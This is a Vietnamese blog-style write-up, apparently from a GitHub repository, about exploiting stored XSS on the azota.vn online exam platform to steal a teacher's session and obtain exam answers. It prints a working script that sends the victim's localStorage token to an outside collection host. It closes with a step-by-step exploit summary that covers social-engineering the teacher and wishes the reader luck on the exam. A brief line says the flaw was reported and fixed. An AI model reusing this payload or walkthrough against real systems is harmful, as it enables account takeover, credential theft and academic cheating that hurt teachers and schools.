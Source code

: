 # Tôi đã hack đáp án azota như nào trong kỳ thi như thế nào
-------------------------------------------
## [Đến phần khai thác luôn thì ấn vào đây](#Tóm-tắt-khai-thác)

## - Mở bài
Thật ra cũng thật tình cờ vào một ngày đẹp thức dậy vào lúc 7h đánh răng ngồi vào bàn học mở zoom thân thương lên để học tập trong mùa dịch, một thông báo bất ngờ hiện lên với dòng tin nhắn của thầy tôi là **KIỂM TRA HOÁ GIỮA KỲ** vào tuần sau trên azota, tôi thật bất ngờ nhưng cũng thật bình tĩnh....
Sau 5 tiết học bận rội tôi mở chiếc lattop cũ kỹ của tôi lên vào web azota để lập tài khoản và thi thử. Tôi biết mình là một người học không tốt môn hoá mấy(thật ra mất gốc). Từ đó tôi suy nghĩ có cách nào mà làm cái khác mà vẫn có ăn không.

## - Thân bài 
Sau khi dạo quanh một vòng web thì tôi tìm ra một số api bị dính lỗi.
Địa chỉ bị lỗi là phần chỉnh sửa web site của azota:
![anh_chinh_sua_web](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/1sua_web.PNG)

### Các api thú vị:
#### Api - 1
`PUT /ladipage/m11_2021/d02/1787477/6181ab4aXXXXXXXXXXX`
`Host: wewiin.nyc3.digitaloceanspaces.com`
![post_chinhsua_web](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/2post_chinhsua_web.PNG?raw=true)


Đây là một api post dữ liệu web của mình lên `CND` trung gian của `digitaloceanspaces`.

Theo chúng ta thấy dữ liệu post ở đây không bị mã hoá và nó là html.

Mình đã thử chèn một đoạn thẻ `<script>alert(1)</script>` post lên .

Và thật bất ngờ ngay sau khi mình truy cập trang web của mình thì web đã bị xss.

Khoan dừng khoảng chừng là 2 giây ở đây mình đã xss trang `CDN` chứ không phải trang `azota.vn`

Mình nhẹ nhàng check lại bằng cách thay `alert(1)` =>  `alert(document.URL)`

**Và :**

![alert_url](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/alert_url.PNG?raw=true)


Thật bất ngờ khi alert hiện lên là url azota đến đây thì mình đã hiểu là web đã render dữ liệu *HTML* từ `CDN` vào thẳng trang web chứ không chèn thông qua `iframe`.
Từ đây web đã bị dính `Stored XSS`

#### Api thứ 2
`POST /api/Usersetting/SaveMyDomain HTTP/2`
`Host: azota.vn`
![post_url_render](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/3post_url_render.PNG?raw=true)


Vậy ra đây một api post `url` web của bạn lên để khi truy cập web site của bạn thì **web sẽ render html** từ trang web này @@.

Nếu vậy có nghĩa là mình chèn một [URL](https://raw.githubusercontent.com/VHAE04/Report_web_security_vulnerabilities/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/xss.html) bị tiêm mã script thì khi web azota render html từ trang đó thì cũng bị `XSS`.



### Tóm lại web đã bị xss nhưng làm sao hack được đáp án
Ở đây nếu muốn lấy đáp án thì phải truy cập vào tài khoản của thầy giáo qua `cookie`(document.cookie) nhưng nếu cookie `httponly` hoặc được `secure` thì chắc cũng bó tay **nhưng ở đây là lúc mình nhận ra** web họ không xác thực qua cookie mà qua `localStorage` **@@ khó hiểu** nếu vậy mình chỉ cần đánh cắp `localStorage` của thầy là mình đã có thể truy cập vào ních thầy được rồi.

code xss 
```
<script>
// post data localStorage lên server của mình 
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "https://webcuaban.com", true);
xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
xhttp.send("data=".concat(localStorage.getItem("user_obj")));
//chuyển hướng đánh lừa thầy web lỗi 404
window.location=("https://azota.vn/vi/admin/baithi");
</script>
```
Giờ thì `social engineering` thôi :3 
![anh_social](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/social.PNG?raw=true)

Ngay sau đó mình đã có data đăng nhập của thầy:

![anh_data](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/data.PNG?raw=true)

:)) đến giờ thì vào thay `localStorage` của thầy và khui đáp án thi học kỳ lấy 10đ thôi.

## - Kết bài
Mình chỉ demo vui vậy thôi chứ mình đã report cho bên đơn vị liên quan để họ sửa chữa

![anh_suachua](https://github.com/VHAE04/Report_web_security_vulnerabilities/blob/main/T%C3%B4i%20%C4%91%C3%A3%20hack%20%C4%91%C3%A1p%20%C3%A1n%20azota%20nh%C6%B0%20n%C3%A0o/images/fix.PNG?raw=true).


# Tóm tắt khai thác 
- 1 Tạo câu lệnh js lấy `localStorage`
    ```
    <script>
    // post data localStorage lên server của mình 
    var xhttp = new XMLHttpRequest();
    xhttp.open("POST", "https://webcuaban.com", true);
    xhttp.setRequestHeader("Content-type", "application/x-www-form-urlencoded");
    xhttp.send("data=".concat(localStorage.getItem("user_obj")));
    //chuyển hướng đánh lừa thầy web lỗi 404
    window.location=("https://azota.vn/vi/admin/baithi");
    </script>
    ```
    Lưu ý vào **https://webcuaban.com** là web của các bạn chèn vào để lấy thông tin post lên ở đây mình khuyến khích các bạn tạo một api get request free ở đây [https://requestbin.com/](https://requestbin.com/)
- 2 Up code lên web nào đó khuyến khích [pastebin](https://pastebin.com/) or [github](https://github.com/VHAE04) ....
  Demo [https://pastebin.com/raw/yS3NZUMr](https://pastebin.com/raw/yS3NZUMr)
- 3 Post url đã được tiêm lệnh lên **[api sau](#Api-thứ-2)**
- 4 Bảo người dùng vào đường dẫn bằng `social engineering`
- 5 Lên web lấy thông tin khi nạn nhân đã post và thay vào `localStorage` của mình
- 6 Truy cập vào tài khoản qua `localStorage` và lấy đáp án thôi :3 **chúc bạn thi thật tốt**
